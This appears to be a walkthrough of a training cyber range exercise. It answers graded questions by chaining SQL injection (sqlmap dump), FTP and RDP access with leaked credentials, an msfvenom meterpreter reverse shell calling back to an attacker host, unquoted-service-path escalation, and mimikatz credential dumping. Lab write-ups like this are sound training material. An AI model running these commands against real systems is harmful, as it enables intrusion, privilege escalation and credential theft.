---
---

# IML - Offensive Cyber Range: Artica Shipping Company




1.) Enum Host 1



2.) What type of server does Unknown Host 1 appear to be?
FTP server

3\. ) What version of Apache is Artica's intranet using?
nmap \<Host 4\> -p 80 -A

Version: 2.4.41

4.) Identify vulnerabilities in services or servers:
Go to \<host 4\> port 80

The to= parameter is injectable (test with a simple quote ' )

5.) What type of attack is the Artica intranet vulnerable to?
SQLi

6.) What is the username of the FTP account that can be found in the intranet database?

1.  Open burp and catch the request



2.  Save the request text to a file, call it 'burpfile':

3.  Run:
```bash
sqlmap -r burpfile --batch --dump-all --exclude-sysdb
```
- We get creds:



\| 1 \| WoWmAgE60 \| b.mocarthy \|

\| 2 \| 0912jgf93FSnjf \| artica-ftp-acc

FTP account: **artica-ftp-acc**

7.) Which of the following directories exists on the FTP server?
Tools




8.) Which port is NOT open on Unknown Host 2?
21

9.) What is the name of the domain Unknown Host 2 is connected to?
NMAP

artica.office

10.) What is the NetBIOS computer name of Unknown Host 1?
From the NMAP

ARTICA-WIN-FTP

11.) What type of attack is the fax server vulnerable to?

Log into ftp server with creds from sql dump

```bash
ftp 10.102.18.198
cd System Administration
binary #Change to binary mode
get fax-server-info.pdf

```
Read it and we get creds:

**DNS: artica-fax-server**
**User: artica\fax_acc**
**Pw: 03mglosmf!!**

Unknown Host 2 is the fax server

- Connect with xfreerdp:
  
```bash
xfreerdp /v:10.102.17.110 /u:artica\fax_acc /p:'03mglosmf!!' /cert:ignore /dynamic-resolution

```
wmic service get name,displayname,startmode,pathname \| findstr /i /v "C:\Windows\\" \|findstr /i /v """




C:\Program Files\Artica Applications\Logging Service\log-srv.exe

```bash
icacls "C:\Program Files\Artica Applications"

```



**Unquoted service path**

12.) Exploit the vulnerabilities to obtain the tokens.

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.102.52.111 LPORT=9000 -f exe -o Logging.exe

python -m http.server 8080

```
Download rev shell
```bash
msfconsole -q -x "use multi/handler; set payload windows/x64/meterpreter/reverse_tcp; set lhost 10.102.52.111; set lport 9000; exploit"
```

Put in C:\Program Files\Artica Applications

```bash
sc qc "Artica Logging Service"

```






```bash
sc start "Artica Logging Service"

```




ps

migrate to winlogon.exe

```bash
load kiwi

kiwi_cmd "token::elevate /domainadmin"

```



```bash
creds_all
```



**emma.thompson : iLOVEbears1204**

13.) What is the token found within the file located on the Administrator's desktop on the domain controller?

On the existing RDP session - Open Remote Desktop and use the creds for Emma



